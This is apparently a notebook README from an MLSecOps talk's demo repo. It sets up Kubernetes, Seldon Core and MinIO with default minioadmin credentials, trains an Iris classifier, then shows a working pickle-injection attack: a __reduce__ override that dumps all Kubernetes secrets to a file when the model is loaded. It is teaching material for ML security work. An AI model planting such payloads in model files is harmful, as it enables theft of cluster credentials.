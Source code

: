 # Flawed Machine Learning Security

This Repo contains a set of resources relevant to the talk "Secure Machine Learning at Scale with MLSecOps", and provides a set of examples to showcase practical common security flaws throughout the multiple phases of the machine learning lifecycle.

## Setup

Requirements on CLIs
* kubectl
* istioctl
* mc (minio client)
* Kubernetes > 1.18
* Python 3.7

### Setup Kubernetes Cluster

#### Install and setup Istio


```python
!istioctl install -y
```


```bash
%%bash
kubectl apply -n istio-system -f - << END
apiVersion: networking.istio.io/v1alpha3
kind: Gateway
metadata:
  name: seldon-gateway
spec:
  selector:
    istio: ingressgateway # use istio default controller
  servers:
  - port:
      number: 80
      name: http
      protocol: HTTP
    hosts:
    - "*"
END
```

#### Setup Seldon Core


```bash
%%bash
kubectl create ns seldon-system
helm upgrade --install \
    seldon-core seldon-core-operator \
    --repo https://storage.googleapis.com/seldon-charts  \
    --set usageMetrics.enabled=true --namespace seldon-system \
    --set istio.enabled="true" --set istio.gateway="seldon-gateway.istio-system.svc.cluster.local" \
    --version 1.13.1
```

#### Setup & configure MinIO


```bash
%%bash
kubectl create ns minio-system
helm repo add minio https://helm.min.io/
helm install minio minio/minio \
    --set accessKey=minioadmin \
    --set secretKey=minioadmin \
    --namespace minio-system
```

    "minio" already exists with the same configuration, skipping
    NAME: minio
    LAST DEPLOYED: Sun Apr 10 13:24:52 2022
    NAMESPACE: minio-system
    STATUS: deployed
    REVISION: 1
    TEST SUITE: None
    NOTES:
    Minio can be accessed via port 9000 on the following DNS name from within your cluster:
    minio.minio-system.svc.cluster.local
    
    To access Minio from localhost, run the below commands:
    
      1. export POD_NAME=$(kubectl get pods --namespace minio-system -l "release=minio" -o jsonpath="{.items[0].metadata.name}")
    
      2. kubectl port-forward $POD_NAME 9000 --namespace minio-system
    
    Read more about port forwarding here: http://kubernetes.io/docs/user-guide/kubectl/kubectl_port-forward/
    
    You can now access Minio server on http://localhost:9000. Follow the below steps to connect to Minio server with mc client:
    
      1. Download the Minio mc client - https://docs.minio.io/docs/minio-client-quickstart-guide
    
      2. Get the ACCESS_KEY=$(kubectl get secret minio -o jsonpath="{.data.accesskey}" | base64 --decode) and the SECRET_KEY=$(kubectl get secret minio -o jsonpath="{.data.secretkey}" | base64 --decode)
    
      3. mc alias set minio-local http://localhost:9000 "$ACCESS_KEY" "$SECRET_KEY" --api s3v4
    
      4. mc ls minio-local
    
    Alternately, you can use your browser or the Minio SDK to access the server - https://docs.minio.io/categories/17


    Error from server (AlreadyExists): namespaces "minio-system" already exists


Once minio is runnning you need to open another terminal and run:
```
kubectl port-forward -n minio-system svc/minio 9000:9000
```


```python
!mc config host add minio-seldon http://localhost:9000 minioadmin minioadmin
```

    [m[32mAdded `minio-seldon` successfully.[0m
    [0m


```bash
%%bash
kubectl apply -f - << END
apiVersion: v1
kind: Secret
metadata:
  name: seldon-init-container-secret
type: Opaque
stringData:
  RCLONE_CONFIG_S3_TYPE: s3
  RCLONE_CONFIG_S3_PROVIDER: minio
  RCLONE_CONFIG_S3_ACCESS_KEY_ID: minioadmin
  RCLONE_CONFIG_S3_SECRET_ACCESS_KEY: minioadmin
  RCLONE_CONFIG_S3_ENDPOINT: http://minio.minio-system.svc.cluster.local:9000
  RCLONE_CONFIG_S3_ENV_AUTH: "false"
END
```

    secret/seldon-init-container-secret created


## Model Training

#### Install requirements for model


```python
%%writefile requirements.txt
seldon_core
scikit-learn == 0.24.2
numpy >= 1.8.2
joblib == 0.16.0
```

    Writing requirements.txt



```python
!pip install -r requirements.txt
```

#### Import datasets to train Iris model


```python
from sklearn import datasets

iris = datasets.load_iris()
X, y = iris.data, iris.target
```

#### Import simple LogsticRegression model


```python
from sklearn.linear_model import LogisticRegression

model = LogisticRegression(solver="liblinear", multi_class='ovr')
```

#### Train model with dataset


```python
model.fit(X, y)
```




    LogisticRegression(multi_class='ovr', solver='liblinear')



#### Run prediction to test model


```python
model.predict(X[:1])
```




    array([0])



#### Dump model binary with pickle


```python
import joblib

joblib.dump(model, "model.joblib")
```




    ['model.joblib']




```python
!cat model.joblib
```

    �csklearn.linear_model._logistic
    LogisticRegression
       fit_interceptq�X   intercept_scalingq	KX   class_weightq
    X   max_iterqKdX   multi_classqX   ovrqX   verboseqK X
       warm_startq�X   n_jobsqNX   l1_ratioqNX   n_features_in_qKX   classes_qcjoblib.numpy_pickle
    NumpyArrayWrapper
    q)�q}q(X   subclassqcnumpy
    ndarray
    qX   shapeqK�qX   orderqhX   dtypeqcnumpy
    dtype
    q X   i8q!���q"Rq#(KX   <q$NNNJ����J����K tq%bX
       allow_mmapq&�ub                      X   coef_q'h)�q(}q)(hhhKK�q*hX   Fq+hh X   f8q,���q-Rq.(Kh$NNNJ����J����K tq/bh&�ub, ?T�@�?�_5nM\�?.z���Q��h|N5m�?w�$3:�����m�f���{���l��em�?�s����@`�8�(V�"\}����M#
    fq@X
       intercept_q0h)�q1}q2(hhhK�q3hhhh.h&�ub�~?����?���'���??���ro�X   n_iter_q4h)�q5}q6(hhhK�q7hhhh X   i4q8���q9Rq:(Kh$NNNJ����J����K tq;bh&�ub   X   _sklearn_versionq<X   0.24.2q=ub.

## Load Pickle and Inject Malicious Code


```python
import joblib

model_safe = joblib.load("model.joblib")
```


```python
model_safe.predict(X[:1])
```




    array([0])




```python
import types, os

def __reduce__(self):
    cmd = "kubectl get secrets -o yaml > kubernetes-secrets.txt"
    return os.system, (cmd,)
```


```python
model_safe.__class__.__reduce__ = types.MethodType(__reduce__, model_safe.__class__)
```


```python
joblib.dump(model_safe, "model_unsafe.joblib")
```




    ['model_unsafe.joblib']




```python
!cat model_unsafe.joblib
```

    �cposix
    system
    q X4   kubectl get secrets -o yaml > kubernetes-secrets.txtq�qRq.

#### Now reload the insecure pickle


```python
!ls kubernetes-secrets.txt
```

    ls: cannot access 'kubernetes-secrets.txt': No such file or directory



```python
import joblib

model_unsafe = joblib.load("model_unsafe.joblib")
```


```python
!head -4 kubernetes-secrets.txt
```

    apiVersion: v1
    items:
    - apiVersion: v1
      data:



```python

```
